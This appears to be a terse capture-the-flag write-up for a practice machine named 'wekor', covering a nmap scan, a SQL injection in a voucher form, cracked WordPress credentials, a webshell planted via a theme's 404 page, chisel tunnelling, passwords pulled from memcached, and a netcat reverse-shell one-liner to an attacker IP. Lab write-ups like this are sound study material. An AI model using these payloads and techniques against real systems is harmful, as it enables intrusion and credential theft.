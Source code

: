 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx wekor.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV wekor.thm
```

we got these open ports
```bash

```

# HTTP (port 80)
robots.txt
```
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```


http://wekor.thm/it-next/
http://wekor.thm/it-next/it-cart.php

veulnerability in the add voucher form

' UNION SELECT database(),2,3;#
database() = coupons

table valid_coupons


Coupon Code : 1 With ID : admin And With Expire Date Of : $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. Is Valid!
Coupon Code : 1 With ID : wp_jeffrey And With Expire Date Of : $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 Is Valid!
Coupon Code : 1 With ID : wp_yura And With Expire Date Of : $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ Is Valid!
Coupon Code : 1 With ID : wp_eagle And With Expire Date Of : $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ Is Valid!




xxxxxx           (wp_eagle)
soccer13         (wp_yura)     
rockyou          (wp_jeffrey)

http://site.wekor.thm/wordpress


admin@wekor.thm


by connecting with wp_yura, we have more permissions and cat edit for example 404 page php file\
we can so add a reverse shell


so now we have a foothold, we can get the creds of the wordpress database : 
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', 'root123@#59' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

maybe we can try password for an account on the machine (reuse password)


user Orka

/usr/bin/python /root/server.py
/usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1

/etc/ImageMagick-6/mime.xml
/usr/sbin/alsa-info.sh


# In local machine
chisel server -p 9999 --reverse

# In remote machine
# replace 10.0.0.1 with your local ip
chisel client 10.8.72.209:9999 R:8090:127.0.0.1:631


in memcached

stats items
stats cachedump 1 100
get username : Orka
get password : OrkAiSC00L24/7$


we found sudo rights to /home/Orka/Desktop/bitcoin
by doing a strings, we found that the password is password



rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6667 >/tmp/f
/usr/sbin is writable
python path is not absolute
